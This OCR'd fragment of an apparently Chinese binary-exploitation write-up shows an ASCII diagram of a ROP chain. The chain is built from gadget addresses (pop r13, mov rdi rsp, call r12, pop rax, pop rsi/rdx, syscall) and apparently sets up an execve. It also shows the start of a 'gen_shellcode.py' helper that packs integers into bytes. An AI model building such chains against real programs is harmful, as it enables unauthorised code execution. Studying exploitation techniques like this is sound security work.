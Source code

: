           8+--------------------+              |   |        +--------------+6
           | 0x000000000000003b |              |   |        | pop r13      |
          9+--------------------+              |   |        +--------------+7
           | 0x00000000004333d9 |-----------+  |   |        | ret          |
         10+--------------------+           |  |   |        +--------------+
           | 0x0000000000000000 |           |  |   |        | ...          |
         11+--------------------+           |  |   +------->+--------------+3
           | 0x0000000000000000 |           |  |            | mov rdi, rsp |
         12+--------------------+           |  |            +--------------+4
           | 0x000000000043d371 |-------+   |  |            | call r12     |
         13+--------------------+       |   |  |            +--------------+
                                        |   |  |            | ...          |
                                        |   |  +----------->+--------------+8
                                        |   |               | pop rax      |
                                        |   |               +--------------+9
                                        |   |               | ret          |
                                        |   |               +--------------+
                                        |   |               | ...          |
                                        |   +-------------->+--------------+10
                                        |                   | pop rsi      |
                                        |                   +--------------+11
                                        |                   | pop rdx      |
                                        |                   +--------------+12
                                        |                   | ret          |
                                        |                   +--------------+
                                        |                   | ...          |
                                        +------------------>+--------------+13
                                                            | syscall      |
                                                            +--------------+


编写了一个python程序`gen_shellcode.py`来生成最终的shellcode：

    # >>> s= long2bytes(0x5c4)
    # >>> s
    # '\xc4\x05\x00\x00\x00\x00\x00\x00'
    def long2bytes(x):
        ss = [""] * 8
        for i in range(8):
            ss[i] = chr(x & 0xff)
            x >>= 8
        return "".join(ss)
